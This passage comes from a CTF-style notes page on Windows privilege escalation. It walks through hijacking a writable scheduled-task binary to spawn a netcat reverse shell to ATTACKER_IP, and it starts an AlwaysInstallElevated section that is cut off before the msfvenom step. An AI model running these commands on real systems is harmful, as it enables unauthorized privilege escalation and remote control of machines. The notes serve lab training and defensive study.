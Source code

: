 
### Other Quick Wins (CTF Techuniques)
- Scheduled Tasks
    <details>
    <summary>DEMO</summary>  

    Looking into scheduled tasks on the target system, you may see a scheduled task that either lost its binary or it's using a binary you can modify.  
    List scheduled task: `schtasks`  
    ```
    C:\> schtasks /query /tn vulntask /fo list /v
    Folder: \
    HostName:                             THM-PC1
    TaskName:                             \vulntask
    Task To Run:                          C:\tasks\schtask.bat
    Run As User:                          taskusr1
    ```  
    Check the "Task to Run" parameter and "Run as Uer" parameter.  
    If our current user can modify or overwrite the "Task to Run" executable, we can control what gets executed by the taskusr1 user, resulting in a simple privilege escalation. 
    To check the file permissions on the executable: `icacls`  
    ```
    C:\> icacls c:\tasks\schtask.bat
    c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
                    BUILTIN\Administrators:(I)(F)
                    BUILTIN\Users:(I)(F)
    ```
    As can be seen in the result, the BUILTIN\Users group has full access (F) over the task's binary. This means we can modify the .bat file and insert any payload we like. For your convenience, `nc64.exe` can be found on `C:\tools`. Let's change the bat file to spawn a reverse shell:
    ```
    C:\> echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
    ```
    We then start a listener on the attacker machine on the same port we indicated on our reverse shell:  
    ```
    nc -lvnp 4444
    ```
    The next time the scheduled task runs, you should receive the reverse shell with taskusr1 privileges. While you probably wouldn't be able to start the task in a real scenario and would have to wait for the scheduled task to trigger, we have provided your user with permissions to start the task manually to save you some time. We can run the task with the following command:  
    ```
    C:\> schtasks /run /tn vulntask
    ```
    </details>

- AlwaysInstallElevated  
    <details>
    <summary>DEMO</summary>

    Windows installer files (also known as .msi files) are used to install applications on the system. They usually run with the privilege level of the user that starts it. However, these can be configured to run with higher privileges from any user account (even unprivileged ones). This could potentially allow us to generate a malicious MSI file that would run with admin privileges.  
    This method requires two registry values to be set. You can query these from the command line using the commands below.  
    ```
    C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
    C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
    ```
    To be able to exploit this vulnerability, both should be set. Otherwise, exploitation will not be possible. If these are set, you can generate a malicious .msi file using `msfvenom`, as seen below:  
    ```